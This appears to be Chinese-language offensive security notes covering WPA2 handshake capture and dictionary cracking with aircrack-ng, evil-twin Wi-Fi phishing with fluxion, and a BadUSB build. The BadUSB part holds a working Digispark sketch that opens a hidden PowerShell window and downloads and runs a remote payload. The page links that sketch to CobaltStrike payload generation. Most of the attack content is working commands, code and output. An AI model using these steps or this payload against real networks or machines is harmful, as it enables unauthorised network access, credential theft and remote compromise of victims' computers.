# wifi渗透

## Wifi密码爆破

[利用在线密码](https://www.bugku.com/mima/)生成1.txt字典，使用kail中自带的Aircrack-ng，首先查看无线网卡的信息

```bash
root@kali:~# iwconfig 
lo        no wireless extensions.
eth0      no wireless extensions.
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

kill掉可能影响的进程`airmon-ng check kill`。启用无线网卡的监听模式`airmon-ng start wlan0`。启用成功后，`Ifconfig`可以看到无线网卡的信息。通过`airodump-ng wlan0mon`监听附近的所有wifi通信，确定目标后可以退出。通过后台持续运行`airodump-ng --bssid F6:4C:A1:B5:C6:81 -c 10 -w test wlan0mon`抓取指定ap的无线通信，这里-c指定对应通道。然后攻击指定的无线客户端及路由器，以获取握手包

```bash
root@kali:~# aireplay-ng -0 2 -a F6:4C:A1:B5:C6:81 -c 20:64:CB:0E:E3:ED wlan0mon
14:52:26  Waiting for beacon frame (BSSID: F6:4C:A1:B5:C6:81) on channel 11
14:52:26  Sending 64 directed DeAuth (code 7). STMAC: [20:64:CB:0E:E3:ED] [ 1|62 ACKs]
14:52:27  Sending 64 directed DeAuth (code 7). STMAC: [20:64:CB:0E:E3:ED] [ 0|65 ACKs]
```

查看后台运行的监听进程，抓到数据包为成功

```bash
root@kali:~# airodump-ng --bssid F6:4C:A1:B5:C6:81 -c 11 -w test wlan0mon
14:50:39  Created capture file "test-01.cap".
 CH 11 ][ Elapsed: 12 mins ][ 2021-10-26 15:03 ][ WPA handshake: F6:4C:A1:B5:C6:81 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 F6:4C:A1:B5:C6:81  -25  27     6548       59    0  11  360   WPA2 CCMP   PSK  DESKTOP-ATOB8DH 5656                                      
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 F6:4C:A1:B5:C6:81  20:64:CB:0E:E3:ED   -1    1e- 0      0       51    
```

通过碰撞破解握手包的密码，获取wifi密码

```bash
root@kali:~# aircrack-ng -w 1.txt test-01.cap 
Reading packets, please wait...
Opening test-01.cap
Read 3938 packets.
   #  BSSID              ESSID                     Encryption
   1  F6:4C:A1:B5:C6:81  DESKTOP-ATOB8DH 5656      WPA (1 handshake)
Choosing first network as target.
Reading packets, please wait...
Opening test-01.cap
Read 3938 packets.
1 potential targets
                               Aircrack-ng 1.6 
      [00:00:00] 1/1 keys tested (25.69 k/s) 
      Time left: --
                           KEY FOUND! [ 12345678 ]
      Master Key     : 53 CB 0A A3 F1 FD 34 35 78 A6 C9 FF 24 FC E6 77 
                       02 21 79 8F 36 A9 31 47 7E 33 E6 A8 F0 34 E5 3F 
      Transient Key  : C7 D1 DD 3D D2 CB 16 34 55 C7 CC 92 6C F8 0C 24 
                       C0 27 A2 2C BA 55 8E 44 A9 5D 05 B9 23 1A 04 0D 
                       BF DD 92 F1 EE 03 8A A3 3E D4 21 90 43 E7 8F 53 
                       01 B4 A6 58 D0 49 D1 6B 0B 8E 0B CD 32 EE C8 EA 
      EAPOL HMAC     : 77 E9 ED 54 77 B7 65 99 D5 B2 01 8B 3F 88 58 66 
```

## WIFI钓鱼

使用[fluxion工具](https://github.com/FluxionNetwork/fluxion)，首先`iwconfig `查看无线网卡的信息，然后`fluxion -i`安装依赖

1. 首先获取目标握手包

   ```
   [2] Handshake Snooper 检索WPA/WPA2加密散列。
   [3] 扫描所有信道  (2.4GHz & 5Ghz)
   [2] 跳过
   [2] aireplay-ng 解除认证方式 (侵略性)
   [2] cowpatty 验证 (推荐用这个)
   [1] 每30秒钟 (推荐).
   [2] Synchronously (推荐).
   ```

2. 之后泛洪攻击目标ap，使其停止无线服务

   ```
   [1] 选择启动攻击方式
   [1] 专属门户 创建一个“邪恶的双胞胎”接入点
   [2] 跳过
   [2] wlan0    [*] Ralink Technology, Corp. RT2870/RT3070      
   [2] aireplay
   [1] 流氓 AP - hostapd (推荐)
   [1] hash - cowpatty
   [1] 使用抓取到的hash文件
   [2] cowpatty 验证 (推荐用这个)
   ```

3. 通过钓鱼框架，伪造目标网络信息，诱导用户连接

   ```
   [1] 创建SSL证书
   [2] 仿真
   [03] 通用认证网页                              Chinese 
   ```

4. 用户连接钓鱼wifi后，将捕获的用户输入的握手包，与之前认证的握手包进行校验；如果校验成功，则停止攻击目标ap ，否则继续攻击，直至成功破解

## 无线路由器漏洞利用

[RouterSploit](https://github.com/threat9/routersploit)它包含了27+个品牌的上百种漏洞利用模块，涉及的路由器、摄像头等设备有几百种。可自动设别设备型号自动扫描可利用的漏洞。

# badusb

## 工具准备

digispark开发板。淘宝链接：https://m.tb.cn/h.fe2pxMT?sm=0b41c0

## 安装 arduino 的 IDE 

https://downloads.arduino.cc/arduino-1.8.13-windows.exe

## 驱动安装

如果是 64 位操作系统请选择 DPinst 64 .exe ，否则请选择 DPinst.exe

## 配置环境

查看链接完成配置，烧录代码：https://www.cnblogs.com/qianxiao996/p/13574566.html

```c
#include "DigiKeyboard.h"
void setup() {
  // put your setup code here, to run once:
  DigiKeyboard.delay(2000);//为等待2秒
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//发送win+R
  DigiKeyboard.delay(800);
  //DigiKeyboard.println("cmd /T:01 /K mode CON: COLS=16 LINES=1");//将cmd窗口最小化保证隐蔽性
  DigiKeyboard.delay(2000);
  DigiKeyboard.println(F("powershell -WindowStyle Hidden -NoLogo -executionpolicy bypass IEX(New-Object Net.WebClient).DownloadString('http://ip:80/a');"));//要执行的payload
  //DigiKeyboard.println("echo set-alias -name rookie -value Invoke-Expression;rookie(new-object net.webclient).downloadstring('http://ip:80/a') | powershell -");
  DigiKeyboard.delay(10000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  //DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);//执行完成后alt+F4关闭窗口
  DigiKeyboard.delay(10000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//发送win+R
}

void loop() {
  // put your main code here, to run repeatedly:
}
```

功能是下载打开windwos+r 运行窗口，输入命令执行。点击上传，在60s之内插入你的badusb。

![img](https://img-blog.csdnimg.cn/20200703160617384.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70)

## CobaltStrike生成木马

attacks->webdrive-by->scrpited web deliver->设置监听->生成命令复制到代码中

badusb其他制作方式https://mrxn.net/jswz/diy-myself-badusb.html



